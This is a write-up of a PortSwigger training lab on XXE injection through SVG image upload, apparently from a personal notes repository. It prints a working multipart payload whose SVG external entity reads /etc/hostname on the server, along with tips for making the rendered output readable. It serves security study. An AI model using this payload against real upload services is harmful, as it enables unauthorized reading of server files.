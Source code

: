 # Exploiting XXE via image file upload

[Lab in PortSwigger](https://portswigger.net/web-security/xxe/lab-xxe-via-file-upload)

## Definition
Some applications allow users to upload files which are then processed server-side. Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG.

For example, an application might allow users to upload images, and process or validate these on the server after they are uploaded. Even if the application expects to receive a format like PNG or JPEG, the image processing library that is being used might support SVG images. Since the SVG format uses XML, an attacker can submit a malicious SVG image and so reach hidden attack surface for XXE vulnerabilities.

## Notes
This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the `Submit solution` button to submit the value of the server hostname.

**Bypassing Filetype Validation**
A valid `SVG` file with the content-type `image/svg+xml` does the job.

**Malicious Payload**
```http
Content-Disposition: form-data; name="avatar"; filename="avatar.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8" standalone="no"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]>
<svg
   xmlns:dc="http://purl.org/dc/elements/1.1/"
   xmlns:cc="http://creativecommons.org/ns#"
   xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:sodipodi="http://sodipodi.sourceforge.net/DTD/sodipodi-0.dtd"
   xmlns:inkscape="http://www.inkscape.org/namespaces/inkscape"
   width="128"
   height="96"
   version="1.1"
   id="svg4"
   sodipodi:docname="users.svg"
   inkscape:version="0.92.4 (5da689c313, 2019-01-14)">
<text x="0" y="15" fill="red">PWN &xxe;</text>
</svg>
```
The dimension of the SVG canvas is important because the server-side converts the SVG into a PNG thumbnail of 128x96. If the canvas is too big the final text will be very small and unreadable.

**Getting the Hostname**  
Just download the `PNG` version on comments page.

## Key Words
> file upload, xml, xxe